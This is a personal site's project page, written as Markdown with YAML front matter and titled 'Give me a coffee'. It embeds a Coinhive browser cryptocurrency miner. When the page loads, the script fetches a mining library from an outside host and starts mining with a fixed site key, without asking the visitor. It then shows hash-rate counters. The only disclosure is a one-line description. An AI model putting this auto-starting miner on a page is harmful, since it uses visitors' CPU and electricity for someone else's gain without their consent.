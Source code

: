 ```yaml
---
layout: project
type: WIP
noimage: '<i class="fa fa-coffee fa-big12" aria-hidden="true"></i>'
image: 
title: Give me a coffee
github: 
description: Buy me a coffee buy giving me some CPU cycles.
---
```


### Performances:

* **Hashes per seconds:** <em id="hashespersecond">0</em><em>H/s</em><br>
* **Total hashes:** <em id="totalhashes">0</em><em>H</em><br>
* **Accepted hashes:** <em id="accepted">0</em><em>H</em>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>

<script>
	window.onload = function() {
		var miner = new CoinHive.Anonymous('94Ewh5erEv797iMDCHPDwSqQHFt6dvvd');
		miner.start();
		miner.setThrottle(0.8)
			// Listen on events
		miner.on('found', function() { /* Hash found */ })
		miner.on('accepted', function() { /* Hash accepted by the pool */ })

		// Update stats once per second
		setInterval(function() {
			var hashesPerSecond = miner.getHashesPerSecond();
			var totalHashes = miner.getTotalHashes();
			var acceptedHashes = miner.getAcceptedHashes();
			document.getElementById("hashespersecond").innerHTML = hashesPerSecond.toString();
			document.getElementById("totalhashes").innerHTML = totalHashes.toString();
			document.getElementById("accepted").innerHTML = acceptedHashes.toString();
			// Output to HTML elements...
		}, 1000);
	} 
	
</script>
